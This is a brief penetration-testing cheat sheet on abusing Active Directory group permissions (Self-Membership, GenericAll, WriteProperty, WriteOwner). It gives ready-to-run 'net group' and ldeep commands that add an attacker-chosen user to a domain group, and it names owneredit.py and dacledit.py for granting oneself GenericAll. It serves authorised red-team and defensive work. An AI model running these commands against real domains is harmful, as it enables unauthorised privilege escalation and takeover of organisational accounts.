 # ACLs/ACEs permissions on Group

### Self (Self-Membership) on Group / GenericAll/WriteProperty on Group/ WriteProperty (Self-Membership)

#### 1) Add group member

    net group "GROUP" MY_USER /add /domain

#### 2) ldeep

    ldeep ldap -u USER -p PASSWORD -d DOMAIN -s ldap://DC add_to_group "CN=USER,DC=DOMAIN" "CN=GROUP,DC=DOMAIN"

### WriteOwner on Group

#### WriteDACL + WriteOwner. Give yourself Generic All with: owneredit.py and dacledit.py
